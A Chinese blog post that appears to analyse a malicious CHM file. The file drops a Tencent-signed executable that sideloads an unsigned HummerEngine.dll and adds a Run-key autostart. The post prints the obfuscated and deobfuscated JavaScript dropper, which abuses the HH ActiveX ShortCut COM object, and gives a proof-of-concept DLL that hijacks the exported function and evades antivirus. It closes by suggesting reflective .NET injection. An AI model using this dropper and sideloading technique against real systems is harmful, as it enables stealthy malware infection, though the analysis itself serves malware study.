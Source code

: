 最近有一个网友发给我一个QQ图20190427141352.chm的文件，让我看看是不是木马。根据经验，这种CHM一般都是里面有个html文件，通过js调用com控件，然后间接执行释放出来的木马文件。

使用7z打开这个chm文件，可以看到里面果然有一些exe文件以及dll文件。

![image.png](https://fynotefile.oss-cn-zhangjiakou.aliyuncs.com/fynote/fyfile/2446/1659491417059/eace087c93214285baa789b5567bf190.png)

双击执行这个chm文件后，果然里面的PcOL.exe被执行了

![image.png](https://fynotefile.oss-cn-zhangjiakou.aliyuncs.com/fynote/fyfile/2446/1659491417059/7d5e8c1be53d4448b6b3410361ceb0f3.png)

经过分析这个exe可不简单，不但有腾讯有效数字签名，还被添加到了启动项

```

HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run\Temp
```

注意一下这个文件的路径是在下面

```
C:\Users\Public\Downloads\desktop\PcOL.exe
```

![image.png](https://fynotefile.oss-cn-zhangjiakou.aliyuncs.com/fynote/fyfile/2446/1659491417059/c3ccadfefe6c44c6b44b877957ca23be.png)

因此判断多数是白利用，利用腾讯正规签名程序加载恶意的dll文件执行，使用Procexp查看该进程加载的模块信息，果然发现一个未签名的DLL文件

C:\Users\Public\Downloads\desktop\HummerEngine.dll这个文件也是刚才双击运行chm文件时释放出来的。

![image.png](https://fynotefile.oss-cn-zhangjiakou.aliyuncs.com/fynote/fyfile/2446/1659491417059/5d501f68d3aa45ab80cefd6081f52693.png)

使用IDA分析简单看了下该文件，有个导出函数：RunQQHummerEngine

![image.png](https://fynotefile.oss-cn-zhangjiakou.aliyuncs.com/fynote/fyfile/2446/1659491417059/420a9581a1164b2bb5ab6d61904b0379.png)

该函数内部有个函数用来添加启动项，另一个函数用来执行其他功能。

![image.png](https://fynotefile.oss-cn-zhangjiakou.aliyuncs.com/fynote/fyfile/2446/1659491417059/4f3e208e16584546b79af3a089034058.png)

为了测试，我编写了一个DLL文件，并导出一个名为RunQQHummerEngine的函数，在函数中打开计算器进程。

```
#include "stdafx.h"


EXTERN_C  _declspec(dllexport) void RunQQHummerEngine()
{
  WinExec("calc.exe", SW_SHOW);
}


BOOL APIENTRY DllMain( HMODULE hModule,DWORD  ul_reason_for_call,LPVOID lpReserved )
{
switch (ul_reason_for_call)
  {
case DLL_PROCESS_ATTACH:


case DLL_THREAD_ATTACH:
case DLL_THREAD_DETACH:
case DLL_PROCESS_DETACH:
break;
  }
return TRUE;
}
```

把这几个文件放在一起，运行PcOL.exe，弹出了计算器，我的360安全卫士并无任何提示。

```
PcOL.exe
libtcmalloc.dll
HummerEngine.dll
```

![image.png](https://fynotefile.oss-cn-zhangjiakou.aliyuncs.com/fynote/fyfile/2446/1659491417059/a50a9297705f41d4bbdcdbf5e1b1f7df.png)

接下来CHM文件是怎么释放这些exe和dll并成功执行PcOL.exe的，使用7z解压CHM文件后，打开里面的PoCL.htm文件

![image.png](https://fynotefile.oss-cn-zhangjiakou.aliyuncs.com/fynote/fyfile/2446/1659491417059/bb144dbb930e45069710b9f16ac3c995.png)

光看html文件，并无明显的恶意代码特征，很明显猫腻就在这段js里面，这段js经过压缩混淆后，传入eval函数。

eval函数是js内置函数，传入的字符串参数会当做js代码来执行。

```
eval(function(p,a,c,k,e,d){e=function(c){return(c<a?"":e(parseInt(c/a)))+((c=c%a)>35?String.fromCharCode(c+29):c.toString(36))};if(!''.replace(/^/,String)){while(c--)d[e(c)]=k[c]||e(c);k=[function(e){return d[e]}];e=function(){return'\\w+'};c=1;};while(c--)if(k[c])p=p.replace(new RegExp('\\b'+e(c)+'\\b','g'),k[c]);return p;}('f I(){}f U(){8 9=V W();9.13="C:\\\\d\\\\h\\\\e\\\\i\\\\11.12";T(9.15>0||(9.b>0&&9.c>0)){O H}E{O Z}}f K(){8 s=G.14;8 7=s.10(":");k 7[7.p-1];k 7[1];k 7[0];8 6=7.Y(":");6=6.X(2,6.p-2);6=6.1f(/%1e/g," ");8 P=\'<a r=x m="o:n-A-w-v-q" b=1 c=1>\'+\'<4 5="t" 3="u">\'+\'<4 5="B" 3="Q::D">\'+\'<4 5="z" 3=",1i.l,-1h C:\\\\d\\\\h\\\\e\\\\i \'+6+\'">\'+\'<4 5="R" 3="S,1,1">\'+\'</a>\'+\'<a r=y m="o:n-A-w-v-q" b=1 c=1>\'+\'<4 5="t" 3="u">\'+\'<4 5="B" 3="Q::D">\'+\'<4 5="z" 3=",17.l,C:\\\\d\\\\h\\\\e\\\\i\\\\19.l">\'+\'<4 5="R" 3="S,1,1">\'+\'</a>\';M.N(\'L\').1c=P;T(U()==H){x.F();j.J("I()",1a);j.G.1b()}E{y.F();M.N(\'L\').16.1g=\'1d\'}}j.J("K()",18);',62,81,'|||value|PARAM|name|dir|arr|var|ImgObj|OBJECT|width|height|Users|Downloads|function||Public|desktop|window|delete|exe|classid|adb880a6|clsid|length|00aa003b7a11|id|str|Command|ShortCut|9377|11cf|||Item1|d8ff|Button||shortcut|else|Click|location|true|cwaitfuntime|setTimeout|cwaitfun|tt|document|getElementById|return|commodStr|Bitmap|Item2|273|if|isHasImg|new|Image|substring|join|false|split|img|jpg|src|href|fileSize|style|explorer|128|PcOL|1000|reload|innerHTML|none|20|replace|display|decompile|hh'.split('|'),0,{})
```

知道他传入的参数是一段字符串，我们可以拷贝出来，把eval换成console.log，这样就可以打印出来这段js代码的真实模样了。

![image.png](https://fynotefile.oss-cn-zhangjiakou.aliyuncs.com/fynote/fyfile/2446/1659491417059/75d6a2e262244b40966fc95fa39a4214.png)

拿到js还原后的代码后，可以在这个网站在线格式化一下，看起来舒服一点

* https://lelinhtinh.github.io/de4js/

```
function cwaitfuntime() {}
function isHasImg() {
    var ImgObj = new Image();
    ImgObj.src = "C:\\Users\\Public\\Downloads\\desktop\\img.jpg";
    if (ImgObj.fileSize > 0 || (ImgObj.width > 0 && ImgObj.height > 0)) {
        return true
    } else {
        return false
    }
}
function cwaitfun() {
    var str = location.href;
    var arr = str.split(":");
    delete arr[arr.length - 1];
    delete arr[1];
    delete arr[0];
    var dir = arr.join(":");
    dir = dir.substring(2, dir.length - 2);
    dir = dir.replace(/%20/g, " ");
    var commodStr = '<OBJECT id=x classid="clsid:adb880a6-d8ff-11cf-9377-00aa003b7a11" width=1 height=1>' + '<PARAM name="Command" value="ShortCut">' + '<PARAM name="Button" value="Bitmap::shortcut">' + '<PARAM name="Item1" value=",hh.exe,-decompile C:\\Users\\Public\\Downloads\\desktop ' + dir + '">' + '<PARAM name="Item2" value="273,1,1">' + '</OBJECT>' + '<OBJECT id=y classid="clsid:adb880a6-d8ff-11cf-9377-00aa003b7a11" width=1 height=1>' + '<PARAM name="Command" value="ShortCut">' + '<PARAM name="Button" value="Bitmap::shortcut">' + '<PARAM name="Item1" value=",explorer.exe,C:\\Users\\Public\\Downloads\\desktop\\PcOL.exe">' + '<PARAM name="Item2" value="273,1,1">' + '</OBJECT>';
    document.getElementById('tt').innerHTML = commodStr;
    if (isHasImg() == true) {
        x.Click();
        window.setTimeout("cwaitfuntime()", 1000);
        window.location.reload()
    } else {
        y.Click();
        document.getElementById('tt').style.display = 'none'
    }
}
window.setTimeout("cwaitfun()", 128);
```

可以看到是利用com控件clsid:adb880a6-d8ff-11cf-9377-00aa003b7a11，双击时就会执行以下两条命令：

**1）释放到用户公用目录下**

```
'<PARAM name="Item1" value=",hh.exe,-decompile C:\\Users\\Public\\Downloads\\desktop ' + dir + '">
```

**2）利用exolorer执行qq白利用**

```
<PARAM name="Item1" value=",explorer.exe,C:\\Users\\Public\\Downloads\\desktop\\PcOL.exe">
```

关于这个CHM利用这个 adb880a6-d8ff-11cf-9377-00aa003b7a11 COM控件，网上已经有很多例子了，只不过这个样本利用脚本变化莫测的特性，做了混淆免杀处理。

此时，我有一个大胆的想法，既然都可以利用chm执行js了，那为何不直接内嵌和.net的dll来反射注入呢？
